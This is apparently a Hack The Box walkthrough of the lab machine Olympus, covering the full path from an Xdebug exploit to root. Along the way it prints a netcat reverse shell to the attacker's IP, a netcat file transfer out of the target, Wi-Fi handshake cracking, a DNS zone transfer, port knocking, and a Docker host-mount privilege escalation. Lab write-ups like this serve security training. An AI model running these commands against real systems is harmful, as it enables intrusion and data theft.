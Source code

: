 # [Olympus](https://app.hackthebox.com/machines/olympus)

```bash
nmap -p-  --min-rate 5000 10.10.10.83 -Pn
```

![alt text](img/image.png)


**Note:** Port `22` is filtered, maybe, we can do `Port Knocking` to make open this port of target machine.


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,2222 10.10.10.83 -Pn 
```

![alt text](img/image-1.png)


Let's look at web application.

![alt text](img/image-2.png)


While looking at HTTP response headers via `curl` command, I see `Xdebug's` version is 2.5.5 

![alt text](img/image-3.png)


While I search publicly known exploit for this version of `Xdebug`, I find this [exploit](https://github.com/D3Ext/XDEBUG-Exploit)

```bash
python3 xdebug.py -u http://10.10.10.83/index.php -l 10.10.14.8
```

![alt text](img/image-4.png)


Let's write reverse shell payload into here as below.
```bash
system("nc -e /bin/bash 10.10.14.8 1337")
```

![alt text](img/image-5.png)


Hola! I got reverse shell from port `1337`.

![alt text](img/image-6.png)

Let's enumerate this machine, I guess that it is `container`.

![alt text](img/image-7.png)


I find interesting `.cap` file from `/home/zeus/airgeddon/captured` directory, named as `captured.cap` file.

![alt text](img/image-8.png)


Let's download this into our box. I will use `nc` to download file. `nc for file transfer`.

First,  I open listener as below
```bash
nc -l -p 1234 > captured.cap
```

![alt text](img/image-9.png)

Then, I send this file into my box as below.

```bash
nc -w 3 10.10.14.8 1234 < captured.cap
```

![alt text](img/image-10.png)


Let's look at this file via `Wireshark`. I can easily find `SSID` (Service Set IDentifier).

![alt text](img/image-11.png)


As we have ready and open `.cap` file and we know `SSID`, we can do `Password Cracking` for `Wi-Fi` password.

That's the first thing which I do , which is so interested for me.

```bash
aircrack-ng -e Too_cl0se_to_th3_Sun -w /usr/share/wordlists/rockyou.txt caputred.cap
```

![alt text](img/image-12.png)



From notes file and password itself, I guess that username is `icarus`, let's join into machine via this credentials by using `ssh` via port `2222`.

icarus: Too_cl0se_to_th3_Sun

```bash
ssh icarus@10.10.10.83 -p 2222
```


![alt text](img/image-13.png)



From `.txt` file, I can see new domain records `ctfolympus.htb`, let's `dig` this domain via `AXFR` protocol to find subdomains.

```bash
dig axfr @10.10.10.83 ctfolympus.htb
```

![alt text](img/image-14.png)


From records itself, you can see one `TXT` record which says 3 numbers and looks like `sequence` for `/etc/knockd.conf` file.

Also from this `TXT` record, we can grab `username` as "prometheus" and `password` as "St34l_th3_F1re!".


Let's do `Port Knocking` via `knock` command as below.
```bash
knock -v 10.10.10.83 3456:TCP 8234:TCP 62431:TCP
```

![alt text](img/image-15.png)


Now, as port `22` (ssh) is open, we can test our credentials via `ssh` command.

prometheus: St34l_th3_F1re!


But after `Port Knocking`, port `22` is `filtered` again, that's why we need to run one cmdlet as below.

```bash
knock -v 10.10.10.83 3456:TCP 8234:TCP 62431:TCP && ssh prometheus@10.10.10.83
```


user.txt

![alt text](img/image-16.png)


For `Privilege Escalation`, I just run `id` command to see included groups of this user.

![alt text](img/image-17.png)



While I run `docker ps` to see local images, I see the result as below.

![alt text](img/image-18.png)


Let's exploit to get root info via `docker run`.

```bash
docker run -v /:/hostOS -i -t  rodhes bash
```

root.txt

![alt text](img/image-19.png)